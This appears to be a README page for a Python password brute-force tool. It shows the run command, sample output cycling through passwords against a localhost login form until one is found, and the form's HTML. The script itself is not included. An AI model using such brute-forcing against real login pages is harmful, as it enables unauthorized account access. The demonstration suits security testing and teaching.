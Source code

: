 ## START

Start the brutforce:

```bash
$ python3 bruteforce.py
```

Output

```bash
/*-------------------------------------------------------------------------------------*/
/*                                  BRUTEFORCE ATTACK                                  */
/*-------------------------------------------------------------------------------------*/
/*                          Don't use for illegal activities                           */
/*-------------------------------------------------------------------------------------*/

Test combination: admin a
Status Code: 200, Final URL: http://localhost/user/login/

...

Test combination: adm0\
Test combination: adm0]
Test combination: adm0^
Test combination: adm0_
Test combination: adm0`
Test combination: adm0{
Test combination: adm0|
Test combination: adm0}
Test combination: adm0~
Test combination: adm1!
Test combination: adm1"
Test combination: adm1#

/*-------------------------------------------------------------------------------------*/
/*                                   PASSWORD FOUND                                    */
/*-------------------------------------------------------------------------------------*/
/*     Time (ms)      |        Tries        |        Name         |      Password      */
/*      1322.645      |       454533        |        admin        |       adm1#        */
/*-------------------------------------------------------------------------------------*/
```

If you debug the form, you will also see the form in the output

```bash
<form method="post" action="http://localhost/user/login/">
    <input type="email">
    <input type="password">
    <input type="submit">
</form>
```

# Information
